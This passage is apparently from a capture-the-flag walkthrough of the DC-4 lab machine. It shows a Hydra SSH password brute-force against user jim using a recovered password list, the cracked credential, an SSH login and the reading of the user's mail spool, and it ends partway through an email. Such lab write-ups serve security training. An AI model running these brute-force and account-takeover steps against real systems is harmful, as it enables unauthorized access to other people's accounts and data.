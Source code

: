 
After downloading the file from the target by copying it to the web folder of the target server and downloading it with the attacker machine we perform a brute force attack against user `jim` via `ssh`.
```bash
$ hydra -I -V -l jim -P old-passwords.bak 192.168.193.195 ssh            
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-02 22:54:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 252 login tries (l:1/p:252), ~16 tries per task
[DATA] attacking ssh://192.168.193.195:22/
[ATTEMPT] target 192.168.193.195 - login "jim" - pass "000000" - 1 of 252 [child 0] (0/0)
[ATTEMPT] target 192.168.193.195 - login "jim" - pass "12345" - 2 of 252 [child 1] (0/0)
...
[22][ssh] host: 192.168.193.195   login: jim   password: jibril04
...
```

> Yes! We found credentials: `jim:jibril04`
{: .prompt-info }

Now we can access the target as user `jim`
```bash
$ ssh jim@192.168.193.195                            
The authenticity of host '192.168.193.195 (192.168.193.195)' can't be established.
ED25519 key fingerprint is SHA256:0CH/AiSnfSSmNwRAHfnnLhx95MTRyszFXqzT03sUJkk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.193.195' (ED25519) to the list of known hosts.
jim@192.168.193.195's password: 
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sun Apr  7 02:23:55 2019 from 192.168.0.100
jim@dc-4:~$ id
uid=1002(jim) gid=1002(jim) groups=1002(jim)
```

> Inspecting the login message of `jim` shows that we seem to have some mail.
{: .prompt-info }

```bash
jim@dc-4:/opt$ cd /var/spool/mail
jim@dc-4:/var/spool/mail$ ls
jim
jim@dc-4:/var/spool/mail$ cat jim 
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
        (envelope-from <charles@dc-4>)
        id 1hCjIX-0000kO-Qt
        for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
```